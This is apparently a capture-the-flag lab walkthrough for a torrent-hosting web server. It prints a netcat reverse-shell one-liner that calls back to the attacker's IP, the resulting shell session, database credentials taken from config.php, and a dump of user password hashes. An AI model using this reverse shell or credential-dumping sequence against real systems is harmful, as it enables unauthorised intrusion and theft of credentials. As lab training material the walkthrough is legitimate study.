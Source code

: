 ## Reverse shell
- Use the RCE to spawn a reverse shell
```bash
#payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9001 >/tmp/f
```

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.6] 39852
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## DB 
- Look in the database directory (/var/www/torrent/database) to find a sql file that is readable. This file contains a hash for the admin user password.
- Look in config.php to find DB creds
```php
  $CFG->host = "localhost";    
  $CFG->dbName = "torrenthoster";       //db name                                                                                                                                                                                                                                                                            
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password
```
- Use these to dump creds in db:
```sql
mysql> select username,password from users;
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | 
| user     | 5f4dcc3b5aa765d61d8327deb882cf99 | 
+----------+----------------------------------+
```
- Tried cracking admin hash but didn't work with rockyou

## User flag
- The www-data user has read access to the flag in george's home directory. Not sure if this is intended?
